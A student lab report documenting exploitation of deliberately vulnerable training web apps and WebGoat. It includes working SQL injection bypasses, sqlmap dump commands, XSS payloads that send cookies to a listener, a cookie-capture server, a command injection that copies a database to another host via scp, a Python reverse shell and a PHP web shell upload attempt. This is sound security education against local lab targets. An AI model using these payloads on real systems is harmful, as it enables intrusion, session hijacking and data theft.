




# NCS: Lab 4 - Web Security

### Name: Mohamad Nour Shahin, Yehia Sobeh, Ali Hamdan

### Group number: B22-CBS-01

### Introduction

---

Web security is about ensuring that your website or web based application is secure enough to be protected from attacks.

There are several types of Web vulnerabilities. You will try to exploit them in this lab.

Remember that there might be programming bugs and logical flaws that lead to exploitation of the functionality.

You can continue to work within the already defined teams and brainstorm to get different ideas of how to find and exploit vulnerabilities.

>

- Make sure to prove your findings and describe important details within the report. Include details about how you were able to find and exploit the vulnerabilities.

- The more you find and prove, the higher your grade.

- Refer to [OWASP Foundation](https://owasp.org/www-project-top-ten/) for a list of possible web vulnerabilities.

>

### Task - Black box testing

You are given 2 docker containers that hold vulnerable web applications: Find the vulnerabilities and exploit them.

#### Docker containers

```command
docker pull innost5/innotva:1.0
docker run -it -p 7777:7777 --restart always innost5/innotva:1.0


docker pull innost5/innowva:1.0
docker run -it -p 8090:80 --restart always innost5/innowva:1.0
```

The two applications will be accessible on ports 7777 and 8090 respectively.

### Solution:

#### First application on port 7777:

I installed the app from Docker Hub and ran it as shown in the image below:


I used OWASP ZAP, Nikto, and SQLMap to check for vulnerabilities.

zap:


sqlmap:


Results from SQLMap:


Vulnerabilities that I found:

1. SQL Injection:

- When I entered the username as ' OR 1=1-- and any password, I gained admin privileges.


Tried different usernames.


- Gained access to the user database using SQLMap with the following command:

```command
sqlmap -u "http://0.0.0.0:7777/login.html" --data="username=' OR 1=1--&password=zzz&Login=Login" --method=POST --dump
```


I tried different queries there is one table which is Users

2. Cross Site Scripting (XSS):


I noticed that the search input in the header was vulnerable to malicious script injection:

So, I entered the following input:

```javascript
<script>     fetch('http://localhost:9999/steal-cookie', {         method: 'POST',         headers: {             'Content-Type': 'application/x-www-form-urlencoded'         },         body: 'cookies=' + encodeURIComponent(document.cookie)     })     .then(response => console.log("Cookies sent successfully!"))     .catch(err => console.error("Failed to send cookies:", err)); </script>
```

I then created a server to capture the cookie:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import urllib.parse

class RequestHandler(BaseHTTPRequestHandler):

    def do_OPTIONS(self):
        self.send_response(200)
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.send_header("Access-Control-Allow-Methods", "GET, POST, OPTIONS")
        self.send_header("Access-Control-Allow-Headers", "Content-Type")
        self.end_headers()

    def do_GET(self):
        # Handle GET requests, log the query parameters
        print("GET request received")
        print(f"Query: {self.path}")

        # Send a simple response back to the client
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.end_headers()
        self.wfile.write(b"GET request received")

    def do_POST(self):
        # Handle POST requests, typically to capture stolen cookies
        content_length = int(self.headers['Content-Length'])  # Get the length of the body data
        post_data = self.rfile.read(content_length).decode('utf-8')  # Read and decode the POST data

        # Parse and log the data, which might contain stolen cookies
        parsed_data = urllib.parse.parse_qs(post_data)
        if 'cookies' in parsed_data:
            stolen_cookie = parsed_data['cookies'][0]
            print(f"Stolen Cookie: {stolen_cookie}")

        # Send a response to the client
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.send_header("Access-Control-Allow-Origin", "http://localhost:7777")
        self.end_headers()
        self.wfile.write(b"POST request received. Cookies stolen and logged.")

    def log_message(self, format, *args):
        # Overriding to suppress default logging (for clean output)
        return

# Set up and start the server on all interfaces (0.0.0.0) and port 9999
server = HTTPServer(('0.0.0.0', 9999), RequestHandler)
print("Server running on port 9999...")
server.serve_forever()
```


3. Path Traversal :


request:


response:


I was able to access the `/etc/passwd` file and read its contents:


4. Remote OS Command Injection:

when I checked the input :


I gained access to the command shell.

I transferred the `test.db` file to my computer using SSH:

```command
127.0.0.1 & scp test.db mohamad@10.0.85.1:/desktop
```


5. Cross Site Scripting (XSS) & Remote OS Command Injection:

I created malicious Python code:

```python
import socket
import subprocess
import os

ip = '10.0.85.1'
port = 9999

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))

os.dup2(sock.fileno(), 0)
os.dup2(sock.fileno(), 1)
os.dup2(sock.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])

```

I uploaded it using the upload button:


When I investigated, I found that the files were stored in the `/tmp` directory:



I also checked the code of the upload handler:


I gave it permission:


Finally:


---

#### Second application on port 8090:

##### 1. Examination of the URL Using Nikto

The web application at `http://localhost:8090` was examined using Nikto, revealing the following issues:

- **Directory Listing Enabled**: `/cart/`, `/css/`, `/users/`, `/images/`
- **Sensitive Files Accessible**: `/icons/README`, `/test.php`


---

##### 2. Identified Vulnerabilities and Exploitation

###### 2.1 SQL Injection

###### Description

The application is vulnerable to SQL Injection on the login form at `http://localhost:8090/users/login.php`.

###### Exploitation

1. **SQLMap Confirmation**  
   SQLMap was used to test and confirm the SQL Injection vulnerability:
   ```bash
   sqlmap -u "http://localhost:8090/users/login.php" --data="username=test&password=test" --batch
   ```


2. **Manual Injection**

Authentication bypass was achieved using the following credentials:

`Username: ' OR 1=1 #`

`Password: any`



Successful login provided access to the application.


---

###### 2.2 Cookie Misconfiguration

###### Description

The PHPSESSID cookie lacks the `HttpOnly` flag, increasing the risk of session hijacking by allowing client-side scripts to access sensitive cookies.

Impact: Increases risk of client-side scripts accessing sensitive cookies, potentially leading to session hijacking.

Recommendation: Set the HttpOnly flag for session cookies.

<br>

###### Exploitation

Simulate Stealing the Cookie by inject a script into the page that sends the cookie to an attacker-controlled server.

1.  **Set Up a Listener**  
    Start a simple HTTP server to capture stolen cookies:

    ```bash
    python3 -m http.server 8081
    ```

    This will listen on port 8081.

2.  **Inject a Script**
    Inject the following JavaScript into the browser console:
    ```javascript
    <script>
    var img = new Image();
    img.src = "http://127.0.0.1:8081/?cookie=" + document.cookie;
    </script>

    ```
    This script sends the ```document.cookie``` value to the attacker-controlled server.

    


    Check HTTP server's console; we can see the request with the cookie:

    
    

---


###### 2.3 Junk HTTP Methods

###### Description

The server accepts unsupported HTTP methods such as TRACK, PUT, DELETE, etc. This can lead to vulnerabilities like Cross-Site Tracing (XST) or file uploads.

Impact: Could lead to unexpected behavior or security issues.<br>

Recommendation: Restrict allowed HTTP methods to GET, POST, HEAD in the server configuration.<br>

<br>


###### Exploitation


1.  **Testing Methods**  
    The following commands were used to test junk HTTP methods:


    ```bash
    curl -X FOOBAR http://localhost:8090/ -v
    curl -X TRACK http://localhost:8090/ -v
    curl -X DEBUG http://localhost:8090/ -v
    curl -X PUT http://localhost:8090/ -v
    curl -X DELETE http://localhost:8090/ -v
    curl -X OPTIONS http://localhost:8090/ -v

    ```

    

    Observations:
    - All methods worked except CONNECT.
    - TRACK allowed Cross-Site Tracing (XST), exposing sensitive headers and cookies.
    - PUT: If allowed, attackers can upload arbitrary files to the server.
    - DELETE: If allowed, attackers can delete resources.
    - OPTIONS: If not restricted, it may leak supported HTTP methods.


2.  **Failed PUT Exploitation**

    Attempt to upload a malicious PHP shell:
    ```bash
    curl -X PUT -d "<?php system($_GET['cmd']); ?>" http://localhost:8090/shell.php
    ```
    This was unsuccessful due to server restrictions.

    Using:

    ```bash
    curl -X TRACK http://localhost:8090/ -v
    ```
    we could get Cross-Site Tracing (XST)

---


###### 2.4 Directory Indexing

###### Description

Directory indexing is enabled on the server, exposing directories like /cart/, /css/, /users/, and /images/.


<br>


###### Exploitation


1.  **Navigate to the following URLs in the browser or using ```curl```**  
    The following commands were used to test junk HTTP methods:


    ```bash
    http://localhost:8090/cart/
    http://localhost:8090/css/
    http://localhost:8090/users/
    http://localhost:8090/images/

    ```


    
    
    


---


###### 2.5 Potentially Sensitive Files

###### Description

- ```/icons/README```: Default Apache README file accessible, revealing server configuration details.

- ```/test.php```: Development test file that may expose sensitive debugging information or hardcoded credentials.


<br>


###### Exploitation


1.  **Access the files directly via the following URLs:**  


    ```bash
    http://localhost:8090/icons/README
    http://localhost:8090/test.php


    ```
    
    

    


---

### Bonus task - White box testing


If you want to practice more and see how vulnerabilites appears in the source code of the application, then you can pull the prepared docker image ```docker pull webgoat/goatandwolf``` and read the description on the [docker hub](https://hub.docker.com/r/webgoat/goatandwolf).


Find the vulnerabilities and exploit them. Also perform static source code vulnerability analysis.


#### Solution:


I connected the docker image


then I tried to access the scource code of the docker image and found this files:


I copied the files found in the docker image to my local machine:


I found a file that have sensitive data about employees like thier phone numbers, where they live, and other things:


The contents of the webgoat.script file reveal the SQL structure and initialization data for the WebGoat application. <br> It includes schema definitions, table creation scripts, and sample data.

**Key Observations**:
Sensitive Data and Defaults

 - Predefined passwords:
    - larryknows
    - thisisasecretfortomonly
    - qwertyqwerty1234
 - Default usernames and email IDs:
    - larry@webgoat.org, tom@webgoat.org, etc.
 - Hardcoded JWT keys:
    - webgoat_key: qwertyqwerty1234
    - webwolf_key: doesnotreallymatter

Challenge Tables

 - Tables like CHALLENGE_USERS, JWT_KEYS, SERVERS, and USER_DATA are likely part of WebGoat challenges.
 - Example: SQL Injection challenges can leverage these tables to exploit vulnerable queries.

SQL Injection

 - Tables like user_data, salaries, and sql_challenge_users contain sensitive information (passwords, credit card details) and could be exploited if input validation is insufficient.

Predefined Users

 - User accounts (USER_SYSTEM_DATA) include usernames, passwords, and cookies.
 - Administrative user (SA) with broad permissions.
Test for SQL Injection : ```' OR '1'='1'; --```

Target tables:
 - USER_DATA: Credit card numbers.
 - SQL_CHALLENGE_USERS: Login credentials.

Test Authentication and Session Handling
 - Default passwords (larryknows, qwertyqwerty1234) might work if not overwritten during initialization.

**Analyzing webgoat.log**
Searching for Errors or Warnings
 - I was looking for lines indicating errors or warnings, as they may reveal misconfigurations or vulnerabilities:
```
grep -i "error" webgoat.log
grep -i "warn" webgoat.log
```
 - Check for Sensitive Data
Examine if the log contains sensitive data like:

    - Usernames and passwords.
    - JWT tokens or API keys.
    - Database connection strings.
```
cat webgoat.log | grep -i "password"
cat webgoat.log | grep -i "key"
```


**SSL Configuration**
Keystore Details:
```
server.ssl.key-store=${WEBGOAT_KEYSTORE:classpath:goatkeystore.pkcs12}
server.ssl.key-store-password=${WEBGOAT_KEYSTORE_PASSWORD:password}
server.ssl.key-alias=${WEBGOAT_KEY_ALIAS:goat}
server.ssl.enabled=${WEBGOAT_SSLENABLED:false}
```
Keystore is located at goatkeystore.pkcs12.
Default password is ``password``.
SSL is disabled by default.
the keystore password is hardcoded as ``password`` in ``application-webgoat.properties``

**Full Stacktrace Disclosure**

The application is configured to include full stack traces in error responses:

``server.error.include-stacktrace=always``
Impact:
Stack traces can reveal sensitive application details, including internal logic, class structures, and even file paths, making it easier for attackers to exploit vulnerabilities.


**Weak SSL Configuration**

SSL is disabled by default:
``server.ssl.enabled=${WEBGOAT_SSLENABLED:false}``
Impact:
Data transmitted between the client and server is unencrypted, making it vulnerable to interception (Man-in-the-Middle attacks).


**Summary of Confirmed Vulnerabilities**

| **Vulnerability**            | **Severity** | **Impact**                                     |
|-------------------------------|--------------|-----------------------------------------------|
| Hardcoded Keystore Password   | High         | Weakens SSL encryption.                       |
| Full Stacktrace Disclosure    | Medium       | Reveals internal details to attackers.        |
| Weak SSL Configuration        | High         | Exposes data in transit.                      |
| SQL Injection                 | High         | Allows unauthorized database access.          |
| Dummy OAuth Credentials       | Medium       | May break authentication flows.               |
| Sensitive Data in Logs        | Medium       | Leaks PII and credentials.                    |
| Hardcoded JWT Keys            | High         | Allows token forgery and privilege escalation.|
| Potential Path Traversal      | High         | Unauthorized access to sensitive files.       |


---


### Grading criteria

- Number of vulnerabilities found

- Documentation of discovered vulnerabilities

- The report has a logical structure and is easy to read